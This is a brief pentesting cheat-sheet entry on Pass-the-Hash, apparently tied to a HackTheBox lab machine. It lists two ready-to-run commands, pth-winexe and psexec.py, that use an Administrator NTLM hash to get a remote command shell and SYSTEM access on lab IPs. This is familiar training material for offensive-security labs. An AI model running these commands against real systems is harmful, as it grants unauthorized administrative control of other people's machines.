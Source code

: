 # Pass The Hash

## get a shell with a Hash on windows system
```cheat passthehash Get a shell using hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 //10.10.10.x cmd
```

```cheat passthehash --> nt authority\system
python psexec.py Administrator@10.10.10.63 -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

tags: #passthehash #pass #the #hash #pth-winexe #ippsec #silo 
